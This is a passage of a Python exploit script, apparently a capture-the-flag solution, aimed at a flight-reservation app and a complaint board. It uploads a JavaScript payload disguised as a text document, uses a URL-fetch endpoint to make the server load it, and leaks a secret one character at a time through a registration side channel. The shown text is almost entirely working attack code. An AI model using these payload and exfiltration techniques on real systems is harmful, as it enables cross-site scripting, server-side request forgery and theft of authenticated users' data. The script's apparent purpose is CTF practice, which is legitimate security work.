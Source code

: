 ```python

    return True

def reservation_login(username, password):
    res = reservation_session.post(f"{reservation}/auth/login", data={
        "username": username,
        "password": password
    })

    return True

def board_login(username, password):
    board_session.post(f"{board}/auth/login", data={
        "username": username,
        "password": password
    })

    return True

def download(fileHash):
    board_session.get(f"{board}/complaint/call?url={reservation_internal}{fileHash}")

    return True

def reservation_create_flight(flight_id, passengers, i):
    for j in range(16):

        char = charset[j]
        files = [
            ("documents",("test.html", """/*\x00*/(async () => {
            const res = await fetch('/flag', {
                credentials: 'include'
            });
            const data = await res.json();
            if (data.flag["""+ str(i) + """] === '""" + char + """') {
                const num = Array.from({ length: 5 }, () => Math.floor(Math.random() * 10)).join("");
                const params = new URLSearchParams();
                params.append("username", "test" + num);
                params.append("password", "test");
                params.append("email", "a".repeat(""" + str(threshold) + """) + "!");

                fetch('/auth/register', {
                    method: 'POST',
                    body: params
                });
            }
        })();""", "text/plain"))
        ]

        res = reservation_session.post(
            f"{reservation}/reservation/create",
            data={
                "flightId": flight_id,
                "passengers": passengers
            },
            files=files,
            allow_redirects=False
        )

        fileHash = getFileHash()
        download(fileHash)
```